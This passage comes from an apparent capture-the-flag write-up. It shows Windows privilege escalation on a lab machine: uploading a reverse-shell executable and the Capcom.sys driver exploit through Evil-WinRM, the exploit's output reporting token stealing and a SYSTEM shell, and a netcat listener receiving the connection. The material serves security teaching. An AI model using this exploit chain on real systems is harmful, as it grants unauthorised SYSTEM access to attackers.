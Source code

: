 Now I'll upload the two executables:



    *Evil-WinRM* PS C:\programdata> upload rev.exe 0xdf.exe
    Info: Uploading rev.exe to C:\programdata\0xdf.exe


    Data: 9556 bytes of 9556 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> upload ExploitCapcom.exe
    Info: Uploading ExploitCapcom.exe to C:\programdata\ExploitCapcom.exe

                                                                 
    Data: 363860 bytes of 363860 bytes copied

    Info: Upload successful!



To run it, I just need to run the `ExploitCapcom.exe` binary with my
`nc` listener waiting:



    *Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
    [*] Capcom.sys exploit
    [*] Capcom.sys handle was obtained as 0000000000000080
    [*] Shellcode was placed at 000001D1FD540008
    [+] Shellcode was executed
    [+] Token stealing was successful
    [+] The SYSTEM shell was launched
    [*] Press any key to exit this program



If it fails right away at `CreateFile`, this means the driver is not
loaded:



    *Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
    [*] Capcom.sys exploit
    [-] CreateFile failed    



It is trying to open a handle to the IOCTL device the driver exposes,
and failing.

Assuming it does work, I'll get a shell on my listener:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.193.
    Ncat: Connection from 10.10.10.193:49827.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
